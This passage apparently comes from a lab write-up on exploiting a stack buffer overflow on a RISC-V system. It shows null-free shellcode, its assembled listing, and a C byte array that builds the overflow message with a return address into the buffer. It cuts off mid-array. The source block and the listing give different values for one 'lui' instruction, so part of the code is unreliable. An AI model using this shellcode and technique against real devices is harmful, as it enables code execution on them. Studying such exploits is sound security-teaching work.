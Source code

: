 Now in opcodes there is new place where there is 0x00, that is `slli ra,ra,24` command. In that case the long 32-bit form would be ok, so lets force long form on that part. Final code:

```
.global _start
_start:

  lui	 a5,0x4080d
  c.li a4,1
  .option norvc
  sb	 a4,0x4e8(a5)
  sub  ra,ra,ra
  addi ra,ra,0x42
  slli ra,ra,24
  lui t3,0xb6e00
  srli t3,t3,16
  add ra,ra,t3
  .option rvc
  c.jr ra
```

```
   1                    .global _start
   2                    _start:
   3 0000 B7D78040              lui      a5,0x4080d
   4 0004 0547                  c.li a4,1
   5                            .option norvc
   6 0006 2384E74E              sb       a4,0x4e8(a5)
   7 000a B3801040              sub  ra,ra,ra
   8 000e 93802004              addi ra,ra,0x42
   9 0012 93908001              slli ra,ra,24
  10 0016 370E88B7              lui t3,0xb7880
  11 001a 135E0E01              srli t3,t3,16
  12 001e B380C001              add ra,ra,t3
  13                            .option rvc
  14 0022 8280                  c.jr ra...
```

No 0x00 bytes in attack code!!!

## 2.4 Preparing the attack message

So in this case the attack message needs to be the size of vulnerable function's stack frame, that is 64 bytes.

- The attack code is 0x22 bytes long i.e. 34 bytes.
- Last bytes in message need to point to start of malicious code = location of smallbuffer = 0x40810470
- Other message byte can be padded with anything but 0x00 bytes

```
char buffer[80] = {
    0xb7,0xd7,0x80,0x40, // lui a5,0x4080d
    0x05,0x47,           // c.li    a4,1
    0x23,0x84,0xe7,0x4e, // sb  a4,0x4e8
    0xb3,0x80,0x10,0x40, // sub ra,ra,ra
    0x93,0x80,0x20,0x04, // addi ra,ra,0x42
    0x93,0x90,0x80,0x01, // slli ra,ra,24
    0x37,0x0e,0x88,0xb7, // lui t3,0xb7880
    0x13,0x5e,0x0e,0x01, // srli t3,t3,16
    0xb3,0x80,0xc0,0x01, // add ra,ra,t3
    0x82,0x80,           // jr ra
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
```